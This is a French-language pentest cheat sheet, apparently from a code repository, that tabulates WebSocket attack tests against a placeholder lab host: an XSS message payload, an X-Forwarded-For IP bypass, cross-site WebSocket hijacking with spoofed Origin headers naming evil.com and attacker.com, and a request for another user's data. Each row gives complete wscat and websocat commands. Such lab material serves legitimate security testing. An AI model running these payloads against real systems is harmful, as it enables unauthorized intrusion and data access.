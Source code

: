 # Websocket

Voici un tableau synthétique pour l’analyse des failles WebSocket, **avec des exemples de commandes complètes et différenciées pour l’attaque et pour l’analyse**, en ligne de commande (principalement avec `wscat` et `websocat`), selon chaque cas. Les commandes sont adaptées pour chaque scénario et permettent de comparer précisément les comportements[1][2].

| Type / Lab                                         | Payload d’attaque neutre (exemple)             | Commande d’attaque (complète)                                                                                                   | Commande(s) d’analyse (complète)                                                                                  | Élément d’analyse (raison préalable)                        | Méthodologie détaillée de découverte                                                                                   |
|----------------------------------------------------|------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------|
| Manipulation de message WebSocket (XSS, logique)   | {"message":"<img src=1 onerror='alert(1)'>"}   | `wscat -c wss://LAB/ws/chat`<br>Puis tapez :<br>`{"message":"<img src=1 onerror='alert(1)'>"}`                                 | `wscat -c wss://LAB/ws/chat`<br>Puis tapez :<br>`{"message":"test"}`                                              | Réponse ou comportement côté client ou serveur              | Envoyez un message modifié (payload XSS ou logique), puis un message neutre, et comparez la réponse ou le comportement de l’application[1][2]. |
| Manipulation du handshake (bypass IP, headers)     | X-Forwarded-For: 1.1.1.1                       | `websocat -H "X-Forwarded-For: 1.1.1.1" wss://LAB/ws/chat`                                                                   | `websocat wss://LAB/ws/chat`                                                                                      | Différence de comportement lors de la connexion             | Ajoutez un header personnalisé lors du handshake pour tenter de contourner des restrictions IP, puis comparez avec une connexion classique[1][2]. |
| Cross-site WebSocket Hijacking (CSWH)              | Origin: https://evil.com                       | `websocat -H "Origin: https://evil.com" wss://LAB/ws/chat`                                                                   | `websocat -H "Origin: https://LAB" wss://LAB/ws/chat`                                                             | Acceptation de la connexion sans contrôle d’origine         | Simulez une connexion WebSocket avec un header Origin usurpé, puis avec l’Origin légitime, et comparez l’acceptation de la connexion[1][2]. |
| Absence de vérification Origin/CSRF                | Origin: https://attacker.com                   | `websocat -H "Origin: https://attacker.com" wss://LAB/ws/chat`                                                               | `websocat -H "Origin: https://LAB" wss://LAB/ws/chat`                                                             | Acceptation de la connexion sans contrôle d’origine         | Ouvrez une WebSocket avec un header Origin usurpé, puis avec l’Origin légitime, et comparez la réponse ou le comportement du serveur[1][2]. |
| Problème de gestion des droits (data leak)         | {"action":"get","user":"victime"}              | `wscat -c wss://LAB/ws/chat`<br>Puis tapez :<br>`{"action":"get","user":"victime"}`                                          | `wscat -c wss://LAB/ws/chat`<br>Puis tapez :<br>`{"action":"get","user":"vous"}`                                 | Réception de données d’autres utilisateurs                  | Envoyez une requête visant à accéder aux données d’un autre utilisateur, puis une requête normale, et comparez les réponses reçues[1][2]. |

---
